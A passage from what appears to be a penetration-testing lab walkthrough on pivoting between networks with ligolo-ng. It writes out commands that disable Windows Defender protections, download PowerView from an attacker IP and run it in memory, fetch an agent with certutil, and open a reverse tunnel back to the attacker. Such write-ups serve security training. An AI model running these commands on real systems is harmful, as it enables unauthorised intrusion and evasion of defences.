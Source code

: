 netstat -an | findstr "192.168."
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
(New-Object System.Net.WebClient).DownloadString(‘http://<your IP Here>/powerview.ps1') | IEX
Get-NetForestTrust
We notice that a new subnet is being interacted with and new domain discovery after doing the above enumeration techniques.


Netstat output

Download the windows agent that matches your targets architecture in my case its 64-bit and then push it onto the machine the same way we did above but this time slightly different steps since this is a windows machine..

Release v0.4.3 · nicocha30/ligolo-ng
An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. - Release v0.4.3 · nicocha30/ligolo-ng
github.com

On your attacker machine:

sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Windows_64bit.zip
You might already have your python web server still running from before so make sure you have the same file in the directory you are serving from.

sudo python -m http.server 80
On the Windows machine:

certutil.exe -urlcache -split -f "http://<Your IP Here>:80/win-agent.exe"

Now lets establish a connection with the agent:

./win-agent.exe -connect <your IP here>:443 -ignore-cert
You should see two sessions available now when running the session command in ligolo.


Now that we know the next IP route lets add it to ligolo and start it.

On your linux machine:

sudo ip route add 192.168.210.0/24 dev ligolo
You should see the following if command was added correctly..


Go back to your ligolo interface running and type session and select the machine with the new tunnel and type start. It will ask you if you want to switch tunnels just select yes..


You should now have learned how to pivot to two different networks. This process will be rinsed and repeated when seeing other machines on the network communicating to other subnets. You will push the agent file on the machine that is communicating with another network or domain and have it connect back to the ligolo interface then route that IP subnet with ligolo and type start.

I hope you found this walkthrough helpful please share with others and ensure to follow and comment if you have any questions!
